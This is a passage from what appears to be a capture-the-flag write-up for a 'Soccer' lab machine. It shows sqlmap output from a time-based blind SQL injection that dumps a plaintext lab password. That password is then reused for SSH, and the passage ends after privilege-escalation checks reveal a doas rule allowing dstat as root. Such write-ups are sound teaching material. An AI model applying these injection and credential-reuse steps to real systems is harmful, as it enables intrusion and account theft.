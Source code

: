 ```jsx
[17:37:51] [INFO] retrieved: p
[17:38:20] [ERROR] invalid character detected. retrying..
[17:38:20] [WARNING] increasing time delay to 3 seconds
assword
[17:39:41] [INFO] fetching entries for table 'accounts' in database 'soccer_db'
[17:39:41] [INFO] fetching number of entries for table 'accounts' in database 'soccer_db'
[17:39:41] [INFO] retrieved: 1
[17:39:47] [WARNING] (case) time-based comparison requires reset of statistical model, please wait.............................. (done)
player@player.htb
[17:43:43] [INFO] retrieved: 1324
[17:44:30] [INFO] retrieved: Player
[17:45:58] [ERROR] invalid character detected. retrying..
[17:45:58] [WARNING] increasing time delay to 4 seconds
[17:46:17] [ERROR] invalid character detected. retrying..
[17:46:17] [WARNING] increasing time delay to 5 seconds
Ofth
[17:47:56] [ERROR] invalid character detected. retrying..
[17:47:56] [WARNING] increasing time delay to 6 seconds
eMatch
[17:50:23] [ERROR] invalid character detected. retrying..
[17:50:23] [WARNING] increasing time delay to 7 seconds
2022
[17:51:25] [INFO] retrieved: player
Database: soccer_db
Table: accounts
[1 entry]
+------+-------------------+----------------------+----------+
| id   | email             | password             | username |
+------+-------------------+----------------------+----------+
| 1324 | player@player.htb | PlayerOftheMatch2022 | player   |
+------+-------------------+----------------------+----------+

[17:53:56] [INFO] table 'soccer_db.accounts' dumped to CSV file '/root/.local/share/sqlmap/output/localhost/dump/soccer_db/accounts.csv'                                                                                                                              
[17:53:56] [INFO] fetched data logged to text files under '/root/.local/share/sqlmap/output/localhost'

[*] ending @ 17:53:56 /2023-01-20/
```

NOTE: time-based blind SQL injection can be very slow. While SQLMap supports threads to help speed things up, it has been known to mess with the results. 

Looks like we have a plain-text password. We are able to use this username and password to SSH in to the box as `player` and obtain the user flag.

Restarting our standard enumeration and checks for privesc, `sudo -l` doesn’t give us much, but we are able to run `doas` as root:

```jsx
player@soccer:~$ find / -type f -name "doas.conf" 2>/dev/null
/usr/local/etc/doas.conf
player@soccer:~$ cat /usr/local/etc/doas.conf
permit nopass player as root cmd /usr/bin/dstat
```
